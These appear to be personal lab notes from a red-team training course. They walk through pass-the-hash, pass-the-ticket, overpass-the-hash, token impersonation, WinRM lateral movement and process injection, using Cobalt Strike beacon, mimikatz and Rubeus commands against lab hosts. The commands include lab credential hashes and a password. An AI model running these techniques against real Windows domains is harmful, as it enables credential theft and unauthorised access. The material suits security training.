 ## Passing the Hash
Used in the system shell I had, the beacon input translates to mimikatz pth command
```powershell
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```
![[Pasted image 20230828141910.png]]
Checking to see if we are able to see the C$ drive on computers that John King is Local Admin's of in the Support Engineers group.
```powershell
beacon> ls \\web.dev.cyberbotic.io\c$
```
![[Pasted image 20230828142333.png]]
```powershell
beacon> ls \\sql-2.dev.cyberbotic.io\c$
```
![[Pasted image 20230828142351.png]]
Both were successful, so PTH is working.

To "drop" impersonation afterwards, use the `rev2self` command.
## Passing the Ticket
Rubeus' `createnetonly` command will start a new hidden process of our choosing, using the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API.
Created cmd.exe process to inject KRBTGT into
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
```
Running this command to grab the LUID of the user logged in as ( John King )
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```
![[Pasted image 20230828164029.png]]
How to get base64 key
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x4b136 /service:krbtgt
```
![[Pasted image 20230828164249.png]]
Run a `ps` to get PID of the very first command ran in PASSING the TICKET and take note of it to inject key into.
![[Pasted image 20230828164439.png]]
Passing the Ticket 
Passed the ticket into the luid of john king
```powershell
beacon >execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /luid:0x4b136 /ticket:doIFuj[...snip...]lDLklP
```
![[Pasted image 20230828165855.png]]
running this command now shows thje krbtgt running in the new LUID we created with jking
```powershell
beacon > execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```
![[Pasted image 20230828170025.png]]
Steal the token of the created cmd.exe we are now NT AUTH SYSTEM.
```powershell
beacon > steal_token 22612
```
![[Pasted image 20230828171051.png]]
Reverted Token with 
```powershell
beacon> rev2self
```
& killed process with 
```powershell
beacon> kill 22612
```
## Overpass The Hash
Another way to get base64 encoded ticket if we already have ntlm hashes.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /ntlm:59fc0f884922b4ce376051134c71e22c /nowrap
```
![[Pasted image 20230828171915.png]]
In order to obtain the TGT encrypted using AES256 encryption instead use this command utilizing the AES256 jking credentials stored in cobalt strike previously - use this method to stay more quiet.
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /nowrap
```
![[Pasted image 20230828172305.png]]


```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```
![[Pasted image 20230828172735.png]]
Overpass the hash is a technique which allows us to request a Kerberos TGT for a user, using their NTLM or AES hash.

## Token Impersonation
Essentially stealing token of a process that is running as someone that we want to impersonate.
mmc.exe is running as dev\jking, we can impersonate this.
```powershell
ps
```
![[Pasted image 20230828174020.png]]
Impersonated jking
```powershell
beacon> steal_token 4444
```
![[Pasted image 20230828174318.png]]

## Token Store
Can store tokens
```powershell
token-store steal 4444
```
![[Pasted image 20230828174528.png]]

## Make Token
Can make tokens if you know the plaintext credentials.
```powershell
beacon> make_token DEV\jking Qwerty123
```
If credentials are known can be used to laterally move through winrm
```powershell
beacon> remote-exec winrm web.dev.cyberbotic.io whoami
dev\jking
```
![[Pasted image 20230828174941.png]]
## Process Injection
Injected into mmc.exe process.
```powershell
beacon> inject 4444 x64 tcp-local
```

![[Pasted image 20230828175306.png]]